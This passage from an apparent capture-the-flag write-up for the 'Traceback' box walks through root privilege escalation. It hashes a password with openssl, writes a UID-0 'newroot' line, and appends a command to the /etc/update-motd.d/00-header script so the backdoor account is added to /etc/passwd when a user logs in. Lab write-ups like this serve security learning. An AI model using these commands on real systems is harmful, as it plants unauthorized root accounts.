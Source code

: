 
Very good! We got the root.txt flag! But is it enough for you ? For me it is not because we didn't root the box...

### 3.6- Root Privilege Escalation

We have several options here. The most common are:

- a reverse shell,
- insert a public key in the ***authorized_keys*** file in the ***/root/.ssh*** directory,
- create a new root user by adding it in the ***/etc/passwd*** file.

The first one is very common and as we just used the second option in the previous chapter, let's try the third one.

We will create a user **"newroot"** with the password **"newrootpass"**, using md5crypt algorithm to hash the password.

First, we hash the password with **`openssl`** using the salt "evil":
~~~
root@kali:~$ openssl passwd -1 -salt evil newrootpass
$1$evil$eu2ySQGNgNghQm4ASTnKa.
~~~

We create a file named "newroot" containing the line we want to add to the /etc/passwd file on the target:

~~~
sysadmin@traceback:~$ echo 'newroot:$1$evil$eu2ySQGNgNghQm4ASTnKa.:0:0:root:/root:/bin/bash' > newroot
sysadmin@traceback:~$ cat newroot
newroot:$1$evil$eu2ySQGNgNghQm4ASTnKa.:0:0:root:/root:/bin/bash
~~~

Then, we modify the ***00-header*** file:
~~~
sysadmin@traceback:~$ echo 'cat /home/sysadmin/newroot >> /etc/passwd' >> /etc/update-motd.d/00-header
~~~
And finally, we immediately login as sysadmin to make the script be executed:

Here is the result:   

![finalroot.png](images/finalroot.png)
